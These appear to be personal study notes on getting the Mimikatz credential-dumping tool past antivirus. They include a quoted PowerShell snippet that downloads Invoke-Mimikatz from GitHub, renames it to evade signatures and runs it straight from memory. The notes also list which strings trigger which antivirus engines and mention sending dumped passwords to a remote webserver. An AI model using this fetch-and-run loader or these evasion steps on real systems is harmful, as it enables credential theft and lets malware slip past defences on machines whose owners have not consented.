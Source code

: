 >>> [REFERENCE] SOURCE CODE:
    [+] https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1    

>>> [REFERENCE] BYPASS ANTI-VIRUS:
    *The content in linked article is not as effective anymore (still triggers tons of alerts), and the Tony G way to directly load source code to memory will trigger alerts and fail, as tested on Win10 (10.0.15063), but their theories still work wonders (as of 20170805).
    Summarize the theories below: Customize the source code (time consuming but effective), test in VirusTotal, then load to memory from local or network source.

    https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

    [+] Run code from memory instead of physical file on target:
        Tony G	
        JULY 25, 2017	@ 2:11 PM

        Why use IEX? The script below goes straight into memory without calling Internet Explorer (which may be way Defender is catching  it). This gets past McAfee without incident:

        $uri = ‘https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1’

        # Get the script code:
        $functionCode = Invoke-RestMethod -Method Get -Uri $uri

        # El perro, el perro, es mi corazón, El gato, el gato, el gato no es bueno.
        $mimidogzCode = $functionCode -replace “Invoke-Mimikatz”, “Invoke-Mimidogz”

        # Instantiate a ScriptBlock passing the
        # source code to the constructor:
        $mimidogz = [ScriptBlock]::Create($mimidogzCode)

        # Load it into memory:
        . $mimidogz

        # Done!
        Invoke-Mimidogz

>>> KNOWN ALERTS (as of 20170806):
    [+] dll contents (ONE, "ikarus", rest of the a/v either doesn't scan or doesn't scan this deep)
    [+] "$PEBytes" (THREE)
    [+] function get-win32types: "NoteProperty" (NINE)

>>> LESSONS LEARNED FROM FIRST VIRUS STUDY (as of 20170806):
    [+] Even known virus can't be identified by anti-virus software - I knew the fact but now I know why.
    [+] Github hosts all kind of files! :)
    [+] Powershell can do more than boring work things! :)
    [+] Most anti-virus software companies are lazy, and most of them don't use smart scan filters
    [+] Virus doesn't need to be on the computer to run (thanks Tony G)
    [+] With a webserver, pwd dump can be dumped to remote webserver after code execution (ref: https://www.youtube.com/watch?v=4kX90HzA0FM&t=1509s). Combining Tony G's method, to load code into memory instead of downloading, should be safer in theory.
    [+] Editing virus source code time consuming but fun, and a great way to learn how anti-virus software work.
